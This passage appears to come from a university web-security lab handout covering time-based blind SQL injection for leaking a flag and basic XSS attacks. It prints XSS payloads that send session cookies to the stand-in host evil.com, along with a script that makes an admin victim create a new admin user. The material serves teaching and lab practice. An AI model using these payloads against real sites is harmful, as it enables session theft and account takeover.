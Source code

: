 Since SQLi time-based attacks are an inferred type of attack, [a template proof of concept script has been provided where you only need to fill in the payload](files/lab6/provided-files/sqli\_blind\_template.py). Your payload needs to use format strings and the MySQL function `group_concat` in the functions `exploit` and `get_length` in the provided code.

You should be able to demonstrate the following tasks:

1. Leaking the flag stored on the database using Time-Based SQLi. **You can use `sqlmap` for this part if your code does not work**.
2. Show your python code and demonstrate it dumping the flag on the database.

{% hint style="danger" %}
**The flag has to match the correct case! So be careful how you construct your SQLi payload.**
{% endhint %}

## 6.2 XSS Attacks

XSS attacks exploit an HTML injection vulnerability that executes malicious javascript that can access a victim's cookies, session tokens or other sensitive information from a trusted source. In this lab, we will explore exploiting client-side XSS vulnerabilities.

### 6.2.1 Exploiting a Basic XSS Vulnerability

The simplest attack vector for an XSS attack is to see if `<script>alert(123)</script>` causes an alert to be displayed. If it does then the page is not filtering the `<` and `>` or `<script>`, enabling malicious javascript to be executed.

If the session cookies have the `HttpOnly` attribute to `false`, then you can read the cookie values using `document.cookie`. Below are some example XSS payloads for exfiltrating session cookie information to a remote server at `https://evil.com`.

```html
<!-- Using the fetch API (not supported on older browsers) -->
<script>fetch("https://evil.com/?nomnom="+document.cookie);</script>

<!-- Using the XMLHttpRequest API -->
<script>request = new XMLHttpRequest();request.open("GET", "https://evil.com/?nomnom="+document.cookie);request.send()</script>

<!-- Redirecting to evil.com -->
<script>window.location = "https://evil.com/?nomnom="+document.cookie</script>
```

However, if the session cookies have `HttpOnly` attribute set to `true` you can still perform actions as the victim on the vulnerable website. Below is an example XSS payload that adds a new admin user on the website for some vulnerable web applications if the victim is an admin user.

```html
<script>
    fetch("/api/users/add_admin",{
        method: 'post',
        headers: {'Content-Type':'application/json'},
        body: JSON.stringify({"username": "evil-user-mwahaha"}) 
    });
</script>
```
